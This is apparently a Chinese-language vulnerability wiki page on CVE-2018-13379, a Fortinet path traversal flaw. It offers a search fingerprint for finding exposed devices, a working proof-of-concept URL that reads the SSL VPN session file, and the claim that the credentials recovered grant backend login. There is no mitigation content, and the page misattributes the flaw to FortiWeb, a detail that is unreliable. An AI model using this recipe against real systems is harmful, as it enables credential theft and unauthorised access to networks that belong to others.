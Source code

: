 # Fortinet FortiWeb sslvpn_websession 路径遍历漏洞 CVE-2018-13379

## 漏洞描述

Fortinet FortiWeb路径遍历漏洞，攻击者通过漏洞可以获取缓存信息，登录服务器

## 漏洞影响

<a-checkbox checked>Fortinet FortiWeb </a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="FortiToken clock drift detected"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1656249876571-67ffe16d-92fa-4e83-a87e-8ae42a65b069.png)

验证POC

```php
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

![img](/assets/PeiQi-Wiki/img/1656249978255-3ac076a5-e2c3-41dd-b2f9-527d4e7a3f68.png)

获取的账号密码即可登录后台